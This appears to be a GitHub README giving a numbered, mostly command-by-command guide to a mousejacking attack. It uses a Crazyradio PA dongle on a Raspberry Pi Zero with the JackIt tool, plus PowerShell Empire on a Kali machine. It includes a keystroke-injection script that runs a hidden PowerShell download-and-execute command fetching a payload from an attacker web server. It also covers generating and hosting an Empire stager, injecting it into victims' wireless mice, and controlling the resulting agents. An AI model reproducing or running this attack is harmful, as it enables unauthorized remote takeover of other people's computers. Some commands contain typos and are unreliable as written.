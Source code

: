 MOUSE JACKING
REQUIREMENTS :-
crazy radio PA usb adapter (chip nRF 24L)

=> MINI RASPBERRY PI 0

=> 3.5/3.7 v BATTERY

GITHUB LINK :->
https://github.com/insecurityofthings/jackit

RASPBERRY PI COMMANDS :=>
Step 1 :-> sudo apt-get update

Step 2 :-> sudo apt-get upgrade

Step 3 :-> sudo apt-get install sdcc binutils python python-pip git openssh-server

Step 4 :-> pip install -U pip

Step 5 :-> pip install -U -I pyusb

Step 6 :-> pip install -U platformio

Step 7 :-> gitclone https://github.com/BastilleResearch/nrf-research-firmware

Step 8 :-> cd nrf-research-firmware

Step 9 :-> ls

Step 10 :-> sudo make

Step 11 :-> connect usb dongle to raspberry pi

Step 12 :-> type => sudo make install

Step 13 :-> gitclone https://github.com/insecurityofthings/jackit.git

Step 14 :-> cd..

Step 15 :-> cd jackit

Step 16 :-> cat requirements.txt

Step 17 :-> sudo pip install -r requirements.txt

Step 18 :-> cd nrf-research-firmware

Step 19 :-> cd tools

Step 20 :-> cd jackit

Step 21 :-> sudo touch pspwn

Step 22 :-> sudo vi pspwn

Step 23 :-> GUI r

Step 24 :-> DELAY 200

Step 25 :-> STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')" ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))

Step 26 :-> enter =>> PRESS ESC =>> TYPE wq:! =>> press ENTER (to save the file)

to search the listner :=>>
Step 27 :-> sudo python nrf24-scanner.py -L

Step 28 :-> CTRL + C

USING EMPIRE IN KALI-LINUX ATTACKER MACHINE
Step 29 :-> sudo apt-get update

Step 30 :-> sudo apt-get upgrade

Step 31 :-> sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig

Step 32 :-> sudo pip install pycrypto iptools pydispatcher flask

Step 33 :-> sudo git clone https://github.com/powershellEmprie/Empire.git

Step 34 :-> cd Empire/setup

Step 35 :-> sudo ./install.sh

Step 36 :-> enter

Step 37 :-> cd..

Step 38 :-> cd ./Empire

Step 39 :-> listeners

Step 40 :-> info

Step 41 :-> set name filename(example pspwn)

Step 42 :-> set host http://apachewebserverIP ADDRESS:8080

Step 43 :-> execute

Step 44 :-> list

Step 45 :-> use stager launcher

Step 46 :-> set Listener filename(example pspwm)

Step 47 :-> set Base64 False

Step 48 :-> set Outfile filename.ps1(example pspwn.ps1)

Step 49 :-> generate

Step 50 :-> exit =>> ls

Step 51 :-> now copy the file to apache web server folder

Step 52 :-> sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)

Step 53 :-> sudo ./Empire

JACKIT TERMINAL
Step 54 :-> sudo python jackit.py --script pspwn

Step 55 :-> cntrl + C

Step 56 :-> enter the key no of the mouse targets on the screen for example 1 ,2 ,3.

KALI LINUX EMPIRE TERMINAL
Step 57 :-> agents

Step 58 :-> interact agentname

Step 59 :-> ls

Step 60 :-> getpid

Step 61 :-> getuid

Step 60 :-> cd c:\Users\ (to run powershell service)















____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________
